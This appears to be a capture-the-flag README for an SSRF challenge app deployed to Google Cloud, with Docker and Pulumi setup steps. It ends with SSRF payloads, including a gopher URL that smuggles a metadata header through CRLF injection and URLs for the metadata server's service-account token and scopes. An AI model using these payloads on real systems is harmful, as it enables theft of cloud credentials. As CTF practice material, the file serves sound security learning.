 ## CTF

## /secure_app/
A more secure way of doing things. Requests the URL from the user's browser instead of requesting from the server

## setup

1. `docker build -t achilles app`
2. `docker tag achilles gcr.io/praxis-gear-297003/achilles`
3. `docker push gcr.io/praxis-gear-297003/achilles` 
4. `pulumi up`

gopher://metadata.google.internal:80/computeMetadata/v1/instance/machine-type%20HTTP/1.1%0AMetadata-Flavor:%20Google%0A%0A

http://metadata/computeMetadata/v1/

http://metadata/instanceMetadata/v1/instance/service-accounts/default/token

metadata/instanceMetadata/v1/instance/service-accounts/default/scopes